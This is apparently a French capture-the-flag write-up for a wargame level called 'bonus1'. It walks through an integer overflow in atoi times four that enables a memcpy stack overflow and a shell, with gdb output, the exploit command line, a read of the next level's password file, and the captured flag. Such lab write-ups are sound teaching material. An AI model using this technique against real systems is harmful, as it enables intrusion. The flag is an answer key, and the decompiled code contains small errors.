 Read also: [./Resources/README.md](./Resources/README.md)

# Source

https://dogbolt.org/?id=e9dbc80b-2f99-46a6-8bbc-0ef4b8c2bda0

```c
/** address: 0x08048424 */
int main(int argc, char *argv[])
{
	int num;
	char dest[40];

	num = atoi(argv[1]);
	if (num > 9)
    	   return 1;

       memcpy(&des, argv[2], num * 4); // ici on a un unsigned int
    	if (num == 0x574f4c46)
          execl("/bin/sh", "sh");

	return 0;
}
```

# Explication

Alors :

 - Le premier argument doit être inférieur à 9 ;
 - Utilisation de memcpy sur le 2eme argument (donc c’est argv[2] qui va servir d’exploit).
 - La variable qui contenait le premier argument, doit devenir égale à 0x574f4c46, soit 1464814662.
   Ou sinon on doit profiter du buffer overflow pour écrire sur la pile (ce qui est possible car le
   programme fait mov %eax,(%esp)).

![Figure 1](./Resources/figure1.png)

Code d'exemple, pour faire un overflow avec atoi et la multiplication par 4 : 

Pour `run  $(python -c 'print "-" + str(2 ** 32 / 4)') a`

On aurait :

```c
#include <stdio.h>
#include <math.h>

int main() {
    unsigned int n;
    n = ((unsigned int) pow(2, 32)) / -4 - 1 * 4 + 4;
    printf("%lu\n", n * 4);
}

/*
Program returned: 0
Program stdout
4
*/
```
https://godbolt.org/

On fait un premier test pour obtenir les infos qu'on veut avec `i r` :

```
(gdb) run  $(python -c 'print "-" + str(2 ** 32 / 4 - 8)') aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[...]
Breakpoint 1, 0x08048468 in main ()
(gdb) ls
Undefined command: "ls".  Try "help".
(gdb) c
Continuing.

Breakpoint 2, 0x08048478 in main ()
(gdb) i r
eax         0xbffff6d4    -1073744172    <= pointeur destination de memcpy
ecx         0x20  32
edx         0xbffff6f4    -1073744140
ebx         0xb7fd0ff4    -1208152076
esp         0xbffff6c0    0xbffff6c0
ebp         0xbffff708    0xbffff708
esi         0x0   0
edi         0x0   0
eip         0x8048478     0x8048478 <main+84>
eflags      0x200283 [ CF SF IF ID ]
cs          0x73  115
ss          0x7b  123
ds          0x7b  123
es          0x7b  123
fs          0x0   0
gs          0x33  51
(gdb) p (char *)$eax
$10 = 0xbffff6d4 'a' <repeats 32 times>
(gdb)

run  "$(python -c 'print "-" + str(2 ** 32 / 4 - (44 / 4))')" "$(python -c 'print "a" * 40 + "\x46\x4c\x4f\x57"')"
```

Le premier bit d’un int est le signe https://fr.wikipedia.org/wiki/Bit_de_signe , en passant négatif (signed bit = 1)
et en cherchant le MAX_INT, on va pouvoir faire un dépassement de valeur, grâce à la multiplication par 4. La variable
de destination de memcpy est un char de taille 40, on souhaite donc que memcpy copie 44 bits. On remplit le deuxième
argument avec 40bits, on inverse le byte order de la valeur 1464814662 (0x574f4c46). Et le travail est fait !

```
./bonus1 "$(python -c 'print "-" + str(2 ** 32 / 4 - (44 / 4))')" "$(python -c 'print "a" * 40 + "\x46\x4c\x4f\x57"')"

cat /home/user/bonus2/.pass
```

Le flag est donc :

```
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
